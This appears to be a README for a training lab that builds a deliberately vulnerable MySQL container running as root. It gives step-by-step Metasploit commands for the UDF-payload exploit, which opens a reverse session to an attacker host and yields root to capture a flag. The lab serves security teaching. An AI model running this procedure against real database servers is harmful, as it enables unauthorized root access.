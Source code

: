 # Overview
These instructions will create a MySQL 5.7.20 instance inside a Docker container on a Ubuntu 22.04 server. The server is vulnerable to the /multi/mysql/mysql_udf_payload exploit in Metasploit. The MySQL service is running as root, allowing an attacker to gain privilege escalation on the target system. I shouldn't have to say this out loud, but this should ABSOLUTELY NOT under any circumstances be used in a production environment.
# Setup
1. Download files to build container
    ```
    $ wget https://raw.githubusercontent.com/TechGeek001/Netsec/mysqldb/main/netsecdb-UbuntuServerX86-64.sh
    $ chmod +x netsecdb-UbuntuServerX86-64.sh
    $ ./netsec-db-UbuntuServerX86-64.sh
    ```
2. Navigate to the newly created directory and build the Docker container
    ```
    $ cd netsecdb/UbuntuServerX86-64
    ```
3. Build and run the Docker container
    ```
    $ docker build -t tnetsecdb .
    $ docker run -d --name netsecdb --dns 192.168.25.10 --dns-search netsec-docker.isi.jhu.edu --privileged --network host tnetsecdb:latest
    ```
4. Exec into the Docker container
    ```
    $ docker exec -it netsecdb bash
    ```
5. Finish configuring MySQL (this can't be done during the build)
    ```
    # cd /root
    # chmod +x setup.sh
    # ./setup.sh
    ```
    This script creates a user, allows it to access MySQL both locally and remotely, and gives it permission to upload and execute user-defined functions
# Exploit
This procedure was tested on Kali Linux 22.04 using Metasploit Framework 6.4.2-dev
1. Start the MSF Console
   ```
   $ sudo msfconsole
   ```
2. Select the desired exploit
    ```
    > use exploit/multi/mysql/mysql_udf_payload
    ```
3. Set the correct options. In this example, the attacker is 1.1.1.1 and the victim is 2.2.2.2
    ```
    > set LHOST 1.1.1.1
    > set SRVHOST 1.1.1.1
    > set RHOST 2.2.2.2
    > set USERNAME tiaan.jerjerrod
    > set PASSWORD doubleEFFORT!!
    > set target 1
    > exploit
    ```
    Note: MSF will claim that the exploit fails, but the session is still created. Not sure why this happens.
4. Open the session (in this example, it is session 1) and test to see which user this payload is running as.
    ```
    > sessions -i 1
    > show guid
    Server username: root
    ```
5. The flag is located in ```/home/admin```.
# Notes
1. The MySQL login credentials can be changed by editing ```UbuntuServerX86-64/config_mysql.txt```
2. The flag filename and contents can be changed by editing ```UbuntuServerX86-64/Dockerfile``` below the ```#this is the flag``` comment
